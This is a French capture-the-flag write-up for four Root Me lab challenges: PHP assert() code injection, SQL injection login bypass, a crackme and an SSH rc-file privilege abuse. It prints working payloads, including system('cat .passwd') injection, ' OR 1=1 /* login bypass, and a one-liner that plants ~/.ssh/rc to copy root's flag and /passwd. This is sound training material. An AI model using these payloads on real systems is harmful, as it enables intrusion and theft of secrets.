

# DETECTION DE VULNÉRABILITÉS
##### Write UP - Root Me
##### tous les flags trouvés dans ces challenges seront tronqués
</br>
</br>

### Chall 1 : [PHP - assert()](https://www.root-me.org/fr/Challenges/Web-Serveur/PHP-assert)
----
</br>

")
</br>

En se déplaçant sur le site on peut remarquer que les pages sont introduites par
> ?page=

donc on teste des valeurs ramdom pour voir ce que cela nous retourne
> ?page='test'

ce qui va sans surprise nous retrouner une erreur:
> Parse error: syntax error, unexpected T_STRING in /challenge/web-serveur/ch47/index.php(8) : assert code on line 1 Catchable fatal error: assert(): Failure evaluating code: strpos('includes/'test'.php', '..') === false in /challenge/web-serveur/ch47/index.php on line 8

A partir de là on sait qu'on peut faire exé-cuter du code grâce à __?page=''__ donc le but dans un premier temps va être d'essayer de faire ressortir la liste des fichiers du répertoire. Pour ce faire on peut essayer d'utiliser la commande __system()__
> ?page='.system("ls -la").'

ce qui nous retourne la liste de tous les fichiers du répertoire courant
```
total 32 
dr-xr-x--- 3 web-serveur-ch47 www-data 4096 Feb 27 2018 . 
drwxr-s--x 69 challenge www-data 4096 Feb 2 15:30 .. 
-r-------- 1 challenge challenge 90 Nov 20 2016 ._nginx.http-level.inc 
-r-------- 1 challenge challenge 727 Nov 20 2016 ._nginx.server-level.inc 
-r-------- 1 challenge challenge 218 Feb 27 2018 ._php53-fpm.pool.inc 
-r-------- 1 web-serveur-ch47 www-data 192 May 7 2017 .passwd 
drwxr-sr-x 2 web-serveur-ch47 www-data 4096 Feb 7 2018 includes 
-rw-r----- 1 web-serveur-ch47 www-data 811 Feb 19 2018 index.php 'includes/'.system("ls -la").'.php'File does not exist
```

On peut voir alors que le fichier qui nous interresse se trouve dans ce répertoire
> -r-------- 1 web-serveur-ch47 www-data 192 May 7 2017 .passwd 

On peut ainsi refaire la même manipulation en changeant un peu le contenu de __system()__
> ?page='.system("cat .passwd").'

ce qui nous permet d'avoir le retour suivant:
> The flag is / Le flag est : x4Ss[...]A1Lx Remember to sanitize all user input! / Pensez à valider toutes les entrées utilisateurs ! Don't use assert! / N'utilisez pas assert ! 'includes/'.system("cat .passwd").'.php'File does not exist

On a donc bien notre flag : __x4Ss[...]A1Lx__
</br>
</br>

### Chall 2 : [SQL injection - Authentification](https://www.root-me.org/fr/Challenges/Web-Serveur/SQL-injection-authentification)
----
</br>


</br>

Le but de ce challenge comme son nom l'indique est d'exploiter une faille __SQL__ pour pouvoir s'authentifier en tant qu'admin sur le site.

Dans un premier temps nous nous retrouvons sur cette page
</br>


</br>

donc le but va être d'exécuter une requête __SQL__ dans un des champs afin de récupérer les logs admin.

Nous allons d'abord essayer de récupérer les logs de l'utilisateur n°1 en base de données. Pour cela on entre la requête suivante dans le champ __Login__ et on met un caractère (minimum) dans le champ __Password__ afin de ne pas le laisser vide.
> ' OR 1=1 /*

ce qui nous permet de nous logger sur l'utilisateur 1
</br>


</br>

A partir de ce moment nous pouvons supposer que l'administrateur a une entrée nommée __admin__ en base de données. Nous exécutons la requête suivante afin d'obtenir les logs d'un potentiel utilisateur __ADMIN__
> ' OR 1=1 AND `username`='admin' /*

Cette requête s'avère être la bonne car nous avons pour retour à ce moment
</br>


</br>

Le mot de passe __admin__ est non lisible, il ne nous reste qu'à inspecter l'élément et changer le __type=__ du champ password ce qui nous revèle le mot de passe de l'admin.

Le flag est donc : __t0[...]k!$__
</br>
</br>

### Chall 3 : [PE x86 - 0 protection](https://www.root-me.org/fr/Challenges/Cracking/PE-x86-0-protection)
----
</br>


</br>

Dans un premier temps on télécharge le __.exe__ du challenge, ensuite nous l'ouvrons avec __Cutter__ afin d'avoir une vue désassemblée de cet exécutable.
</br>


</br>

Nous savons que le but de ce challenge est de retrouver le __Password__ donc nous allons commencer par chercher une fonction __Wrong.password__. Nous entrons notre recherche dans la barre de rechercher de __Cutter__ ce qui nous renvoie ici:
</br>


</br>

Ici on peut voir dans le __DATA XREF__ a quelle fonction correspond cette string et où elle se trouve
> ; DATA XREF from fcn.00401726 @ 0x04017aa

A partir de la nous nous deplacons vers la __fonction__ d'addresse 0x004017aa, ce qui nous ramène sur cette vue:
</br>


</br>

D'ici nous pouvons voir grâce à l'arborescence que plusieurs variables sont reliées à cette fonction, et que en bout de ligne ce trouve un commentaire en chiffre. Ces chiffres doivent être le mot de passe décomposé. Si nous executons le programme et entrons ses chiffres comme mot de passe nous avons une erreur
> Wrong Password

Si ces chiffres ne fonctionne pas essayons de les transcoder dans un autre type, par exemple en __ASCII__, si nous prennons la correspondance de chaque chiffre alors cela nous donne 
> 'S' 'P' [...] 'S'

et si nous entrons ces lettres (majuscule et miniscule respectées) alors a ce moment nous avons le message 
> Gratz Man :)

qui apparait, donc ce mot de passe est le bon

Flag : __SP[...]S__
</br>
</br>

### Chall 4 : [PE x86 - 0 protection](https://www.root-me.org/fr/Challenges/Cracking/PE-x86-0-protection)
----
</br>


</br>

Pour ce challenge nous devons demarrer un machine virtuel détenue par root-me et nous connecter desssus avec les logs: __admin/admin__.
</br>


</br>

Donc nous avons le VM ctf06, ce qui est important a retenir pour la suite.

Pour la suite nous devons ecrire un script qui nous permettra de d'exécuter du code quand notre collègue se connectera sur le server. Soit nous nous connecton sur le server et nous ecrivons notre script dans 
> ~/.ssh/rc

pour qu'il s'exécute a la connexion, soit nous ecrivons cette ligne dans notre terminal
> ssh -oStrictHostKeyChecking=no admin@ctf06.root-me.org "echo \"ssh -oStrictHostKeyChecking=no root@localhost 'cat /passwd /root/.flag > /tmp/flag && chmod 777 /tmp/flag'\" > .ssh/rc; while [[ ! -f /tmp/flag ]]; do sleep 1; done; cat /tmp/flag"

en oubliant pas de changer 
> admin@ctf06.root-me.org

en fonction de la machine que nous utilison. Ce qui nous donnera après 1 minute d'atttente ce résultat:
</br>


</br>

Nous avons donc nos 2 flags.

Flag VM : __4179[...]c300d05__

Flag Chall : __B3[...]AGENT__